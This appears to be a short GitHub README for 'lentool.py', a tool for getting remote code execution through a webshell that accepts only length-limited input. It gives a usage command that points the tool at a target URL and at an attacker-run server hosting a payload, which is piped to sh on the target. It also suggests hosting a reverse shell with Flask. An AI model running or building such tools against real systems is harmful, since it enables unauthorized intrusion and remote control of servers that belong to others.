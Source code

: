 # Description
Tool to RCE in limited length input length webshell.  
It pipes the paylaod to sh, you can customize it with a few changes in the source code (python one is already done just uncoment it), also you could modify it to execute commands directly.

# Usage:
```
python3 lentool.py -t http://targetexample.com/?start -u http://myserverexample.com
--target, -t: Target URL with param.  
--url, -u: Web server hosting the payload.
```
In the extras folder you can find an example using flask to host the payload, for example you could use a reverse shell.
